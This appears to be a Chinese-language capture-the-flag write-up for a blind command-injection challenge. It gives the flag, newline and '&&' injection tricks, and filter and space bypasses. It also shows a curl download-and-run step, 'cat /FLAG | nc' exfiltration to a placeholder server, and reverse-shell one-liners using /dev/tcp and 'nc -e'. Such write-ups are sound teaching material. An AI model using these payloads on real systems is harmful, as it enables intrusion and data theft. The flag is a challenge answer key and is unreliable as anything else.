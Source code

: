 ```yaml
---
Author: SuperJason
Date: 2020-12-25
---
```


## flag
n1book{6fa82809179d7f19c67259aa285a7729}

## 思路
1. 访问环境，测试命令`127.0.0.1`  
![](./images/cmd-1.png)
2. 接着测试`127.0.0.1 && ls`，这里浪费了一点时间，以为`&&`不能让`ls`命令执行，其实是因为浏览器将我们输入的`&&`转码了，导致我们的输入其实变成了`127.0.0.1+%26%26+ls`  
   **建议以后做注入题目时，直接用burpsuite，防止注入的数据被浏览器转码**  
![](./images/cmd-2.png)  
![](./images/cmd-3.png)
3. 这里还有一个问题，虽然ip ping成功，但后面的命令不一定执行了。接着用`sleep 5`进行延时注入，发现`&&`命令并不能让后面的sleep命令执行，接着测试`%0a`连接符，可以让后面的sleep命令执行
4. 开始猜测flag的位置，`flag`、`flag.php`、`flag.txt`等，没有找到明显的flag文件。由于没有命令执行的回显，如何找到flag文件并且将文件数据传出来是个问题，考虑`{flag file} | nc {your_server_ip port}`将数据传出来，但`|`和`:`符号被判定为恶意字符。  
**如果没有服务器，可以用buuctf开小号，在basic/Linux labs上启动一个内网服务器**  
5. `>`没有被过滤，可以从服务器下载恶意脚本到本地并执行。这里使用`curl {your_server_ip}/ctf.sh`，然后准备给sh文件加执行权限，却无法添加，最后怀疑当前用户在当前目录没有保存文件的权限。  
![](./images/cmd-4.png)  
![](./images/cmd-5.png)
6. 于是将`ctf.sh`保存到`tmp`目录下。添加可执行权限。  
![](./images/cmd-6.png)  
![](./images/cmd-7.png)
7. 这里其实传了两次.sh文件，第一次的文件内容为`ls  | nc {your_server_ip port}`，得到当前目录下的文件列表，发现存在`/FLAG`文件，第二次的文件内容为`cat /FLAG | nc {your_server_ip port}`，将`/FLAG`文件内容传出来。  
8. 在服务器上监听本地端口`nc -lvp 8888`，这里我的是8888。然后执行`ctf.sh`，得到回传的数据。  
![](./images/cmd-8.png)  
![](./images/cmd-9.png)

## 总结
命令执行主要是通过特殊字符让本不该执行的命令执行。常用的特殊字符有
- 转义符  
  `^`、`\`、`&`
- 连接符  
  `&&`、`||`、`%0a`、`%0d`、`;`、`$()`
- 注释符号
  `#`、`:: ` 

### 进一步的扩宽一下难度
1. cmd可以会过滤空格，可以用其他字符绕过
- %09、%0b、%0c、$IFS$9  
2. 黑名单绕过  
- 字符串拼接，`a=c;b=at;c=he;d=llo;$a$b ${c}${d}`为cat hello
- 字符串截取，substr
3. `nc、curl`命令的使用，`>、|`重定向符的使用
4. 常用反弹shell
- 攻击者服务器监听8888端口，nc -lvp 8888
- 受害者1 `bash -i >& /dev/tcp/{server_ip}/8888 0>&1`
- 受害者2 `nc -e /bin/sh {server_ip} 8888`